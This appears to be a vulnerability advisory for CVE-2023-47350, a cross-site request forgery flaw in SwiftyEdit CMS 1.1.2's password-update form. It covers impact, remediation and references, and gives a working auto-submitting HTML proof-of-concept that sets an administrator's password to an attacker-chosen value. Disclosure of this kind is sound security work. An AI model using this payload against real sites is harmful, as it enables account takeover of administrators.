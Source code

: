 # CVE-2023-47350: Cross-Site Request Forgery (CSRF) vulnerability in the user passwoprd update funcionality in SwiftyEdit CMS 1.1.2

> https://github.com/SwiftyEdit/SwiftyEdit

# Vulnerability Type
CWE-352: Cross-Site Request Forgery (CSRF)

# CVSS 8.3 HIGH
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:L

# Description
The web application does not employ CSRF tokens to secure its 'Update Password' functionality in the user 'Profile'. This vulnerability allows threat actors to execute unauthorized password changes on user accounts, particularly when targeting administrators.

# Execution steps
1. The threat actor crafts a malicious link or HTML markup that, when interacted with by the target admin, initiates a password change request on the admin's account. This link or HTML can be disguised as a seemingly harmless request, such as a notification or update.
2. The admin, unaware of the malicious intent, clicks the link or interacts with the HTML markup.
3. As the admin is logged into the web application, their browser sends a request to change their password to the web application's server, just as it would for a legitimate password change.
4. The web application processes the request, changing the admin's password to a new one chosen by the attacker.
5. The attacker now has unauthorized access to the admin's account, potentially leading to data theft, privilege escalation, or other malicious actions.

# Impact
This Cross-Site Request Forgery vulnerability in SwiftyEdit CMS 1.1.2 may allow an unauthenticated threat actor to escalate his privileges to administrator. A malicious user can lure an administrator to execute the HTML markup and trigger a change of the administrator's password to any value he desires. The malicious user can then login as the administrator and create, edit and delete any content in the CMS and edit/delete users with any privilege.

# Remediation
Implement and enforce the use of a CSRF token for the 'Update Password' functionality in the user 'Profile'. This token should be generated uniquely for each user session and validated on the server before allowing the action to proceed.

# Proof of Concept code
Create an HTML file and add the following markup:

```html
<html>
  <body>
    <form action="http://swiftyedit/profile/" method="POST">
      <input type="hidden" name="s&#95;psw" value="1234" />
      <input type="hidden" name="s&#95;psw&#95;repeat" value="1234" />
      <input type="hidden" name="update&#95;psw&#95;data" value="Update" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# References
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47350](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47350)
- [https://github.com/SwiftyEdit/SwiftyEdit/commit/90a6f3df16cd1578b2827d7b2e073451f7ce4e47](https://github.com/SwiftyEdit/SwiftyEdit/commit/90a6f3df16cd1578b2827d7b2e073451f7ce4e47)
- [https://nvd.nist.gov/vuln/detail/CVE-2023-47350](https://nvd.nist.gov/vuln/detail/CVE-2023-47350)
